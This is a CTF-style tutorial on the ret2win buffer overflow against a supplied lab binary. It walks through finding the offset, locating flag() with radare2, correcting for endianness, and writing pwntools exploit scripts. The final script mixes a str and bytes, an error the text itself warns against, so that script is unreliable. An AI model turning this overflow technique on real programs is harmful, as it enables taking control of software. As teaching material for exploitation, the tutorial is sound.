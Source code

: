 ```yaml
---
description: 'One of the most basic binexp challenges of all, the ret2win'
---
```


# ret2win

A **ret2win** is simply a binary where there is a `win()` function \(or equivalent\); once you successfully redirect execution there, you complete the challenge.

To carry this out, we have to leverage what we learnt in the **introduction**, but in a _predictable manner_ - we have to overwrite EIP, but to a specific value of our choice.

To do this, what do we need to know? Well, a couple things:

* The padding _until_ we begin to overwrite the EIP
* What value we want to overwrite EIP to

{% file src="../../.gitbook/assets/ret2win.zip" caption="ret2win" %}

### Finding the Padding

This can be found using simple trial and error; if we send variable numbers of characters, we can use the `Segmentation Fault` message, in combination with radare2, to tell when we overwrote EIP. There is a better way to do it than simple brute force \(we'll cover this in the next post\), but it'll do for now.

> Note: You may get a segmentation fault for reasons other than overwriting EIP; use a debugger to make sure the padding is correct.

We get an offset of 52 bytes.

### Finding the Address

Now we need to find the address of the `flag()` function in the binary. This is simple.

```text
$ r2 -d -A vuln
$ afl
[...]
0x080491c3    1 43           sym.flag
[...]
```

> Note: `afl` stands for **A**nalyse **F**unctions **L**ist

The `flag()` function is at `0x080491c3`.

### Using the Information

The final piece of the puzzle is to work out how we can send the address we want. If you think back to the introduction, the `A`s that we sent became `0x41` - which is the ASCII code of `A`. So the solution is simple - let's just find the characters with ascii codes `0x08`, `0x04`, `0x91` and `0xc3`.

This is a lot simpler than you might think, because we can specify them in python as hex:

```python
address = '\x08\x04\x91\xc3'
```

And that makes it much easier.

### Putting it Together

Now we know the padding and the value, let's exploit the binary! We can use pwntools to interface with the binary \(check out the pwntools posts for a more in-depth look\).

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

If you run this, there is one small problem: it won't work. Why? Let's check with a debugger. We'll put in a `pause()` to give us time to attach `radare2` onto the process.

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

log.info(p.clean())      # Receive all the text

pause()

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

Now let's run the script with `python3 exploit.py` and then open up a new terminal window.

```text
r2 -d -A $(pidof vuln)
```

By providing the PID of the process, radare2 hooks onto it. Let's break at the return of `unsafe()` and read the value of the return pointer.

```text
[0x08049172]> db 0x080491aa
[0x08049172]> dc
<<press any button on the exploit terminal window>>
hit breakpoint at: 80491aa
[0x080491aa]> pxw @ esp
0xffdb0f7c  0xc3910408 [...]
[...]
```

`0xc3910408` - look familiar? It's the address we were trying to send over, except the bytes have been reversed, and the reason for this reversal is [endianness](https://en.wikipedia.org/wiki/Endianness). Big-endian systems store the **most significant byte** \(the byte with the largest value\) at the smallest memory address, while little-endian does the opposite; most binaries you will come across are little-endian. Essentially, as far as we're concerned, the byte are stored in reverse order in little-endian executables.

### Finding the Endianness

`radare2` comes with a nice tool called `rabin2` for binary analysis:

```text
$ rabin2 -I vuln
[...]
endian   little
[...]
```

So our binary is **little-endian**.

### Accounting for Endianness

The fix is simple - reverse the address \(you can also remove the `pause()`\)

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

If you run this now, it will work:

```text
$ python3 tutorial.py 
[+] Starting local process './vuln': pid 2290
[*] Overflow me
[*] Exploited!!!!!
```

And wham, you've called the `flag()` function! Congrats!

### Pwntools and Endianness

Unsurprisingly, you're not the first person to have thought "could they possibly make endianness simpler" - luckily, pwntools has a built-in `p32()` function ready for use!

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

becomes

```python
payload += p32(0x080491c3)
```

Much simpler, right?

The only caveat is that it returns `bytes` rather than a string, so you have to make the padding a byte string:

```python
payload = b'A' * 52        # Notice the "b"
```

Otherwise you will get a

```text
TypeError: can only concatenate str (not "bytes") to str
```

### Final Exploit

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = 'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```

